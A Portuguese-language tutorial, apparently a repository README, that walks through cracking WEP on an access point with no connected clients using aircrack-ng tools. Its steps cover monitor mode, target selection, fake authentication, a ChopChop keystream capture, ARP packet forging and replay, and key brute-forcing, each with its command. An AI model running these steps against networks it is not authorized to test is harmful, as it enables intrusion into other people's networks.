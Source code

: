 ## Atacando WEP sem clientes conectados

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo

 ``` airodump-ng <interface> ```


#### 3° passo:

Focar o sniffing na rede alvo para capturar o trafego...

 ``` airodump-ng --bssid BSSID --channel CHANNEL <interface> -w CAPNAME ```

#### 4° passo:

Realizar uma Fake Auth no AP alvo para efetuarmos um ataque nesse fake client...

 ``` aireplay-ng -1 6000000 -a BSSIDAP <interface> -e ESSIDAP ```
 
 * ``` -1 6000000 ``` é referante a quantidade de pacotes de Fake Auth a serem enviados ao AP para o fake client não ser desconectado (keep alive).
 
* Depois de executar o comando repare se um novo cliente aparece conectado ao AP alvo.
 
#### 5° passo:

Após criarmos um fake client, temos que capturar algumas infos sobre a autenticação do WEP. Tem dois tipos de ataques: o ChopChop e um Ataque de Fragmentação... nem todos os roteadores são vulneraveis 
 
 ``` aireplay-ng -4 -a BSSIDAP -h BSSIDFAKECLIENT <interface> ```
 
* Depois de executar o comando é iniciado a catpura de pacotes e pode demorar um pouco. Logo depois sera pedido uma confirmação sobre os pacotes capturados ("Use this packet?"), é só digitar um "yes" e sera iniciado outro processo de criar um arquivo .xor que usaremos para forjar um pacote ARP... 

#### 6° passo:

Com o arquivo .xor vamos forjar os pacotes ARP

 ``` packetforge-ng -0 -a BSSIDAP -k 255.255.255.255 -l 255.255.255.255 -h BSSIDFAKECLIENT -y arquivo.xor -w output.cap```
 
 * ``` -k Destination IP ```
 * ``` -l Source IP ```
 
Depois de executar o comando sera criado um um arquivo "arp_request" que é o pacote ARP forjado qe usaremos

#### 7° passo:

Com o pacote ARP forjado vamos esse pacote enviar para o Fake Client...

 ``` aireplay-ng -2 -r arp_request <interface> ```
 
* Depois de começar o envio dos pacotes ARP forjados fique de olho no campo #Data que está no terminal do airodump. Este valor precisa ir até a faixa dos 20 mil dados (demora um pouco).


#### 8° passo:

Quebrar o WEP por brute force

 ``` aircrack-ng -a 1 arquivo.cap ```
